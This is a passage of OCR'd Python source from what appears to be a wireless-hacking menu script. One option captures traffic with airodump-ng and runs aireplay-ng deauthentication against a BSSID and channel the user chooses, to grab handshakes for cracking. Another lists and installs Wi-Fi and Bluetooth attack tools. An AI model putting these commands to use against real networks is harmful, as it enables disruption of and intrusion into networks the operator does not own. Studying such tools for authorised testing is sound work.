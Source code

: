         cmd = os.system("sleep 10")
        intro()
    elif var == 4 :
        print("\nEnter the interface:(Default >>(wlan0mon/wlan1mon))")
        interface = input("")
        order     = "airodump-ng {} -M".format(interface)
        print("\nWhen Done Press CTRL+c")
        print("\nNote: Under Probe it might be Passwords So copy them to the worlist file")
        print("\nDon't Attack The Network if its Data is ZERO (you waste your time)")
        print("\nyou Can use 's' to arrange networks")
        cmd       = os.system("sleep 7")
        geny      = os.system(order)
        print("\nEnter the bssid of the target?")
        bssid     = str(input(""))
        print("\nEnter the channel of the network?")
        channel   = int(input())
        print("Enter the path of the output file ?")
        path = str(input(""))
        print("\nEnter the number of the packets [1-10000] ( 0 for unlimited number)")
        print("the number of the packets Depends on the Distance Between you and the network")
        dist = int(input(""))
        order = "airodump-ng {} --bssid {} -c {} -w {} | xterm -e aireplay-ng -0 {} -a {} {}".format(interface,bssid,channel,path,dist,bssid,interface)
        geny = os.system(order)
        intro()
    elif var == 5 :
        def wire():
            cmd = os.system("clear")
            print("""
1) Aircrack-ng                          17) kalibrate-rtl
2) Asleap                               18) KillerBee
3) Bluelog                              19) Kismet
4) BlueMaho                             20) mdk3
5) Bluepot                              21) mfcuk
6) BlueRanger                           22) mfoc
7) Bluesnarfer                          23) mfterm
8) Bully                                24) Multimon-NG
9) coWPAtty                             25) PixieWPS
10) crackle                             26) Reaver
11) eapmd5pass                          27) redfang
12) Fern Wifi Cracker                   28) RTLSDR Scanner
13) Ghost Phisher                       29) Spooftooph
14) GISKismet                           30) Wifi Honey
15) Wifitap                             31) gr-scan
16) Wifite                              32) Back to main menu
90) airgeddon
91) wifite v2

0)install all wireless tools
""")
            w = int(input("Enter The number of the tool : >>> "))
            if w == 1 :
                cmd = os.system("sudo apt-get update && apt-get install aircrack-ng")
            elif w == 90:
                print("sudo apt-get update && apt-get install git && git clone https://github.com/v1s1t0r1sh3r3/airgeddon.git")
            elif w == 91:
                print("sudo apt-get update && apt-get install git && git clone https://github.com/derv82/wifite2.git")
            elif w == 2 :
                cmd = os.system("sudo apt-get update && apt-get install asleep")
            elif w == 3 :
                cmd = os.system("sudo apt-get update && apt-get install bluelog")
            elif w == 4 :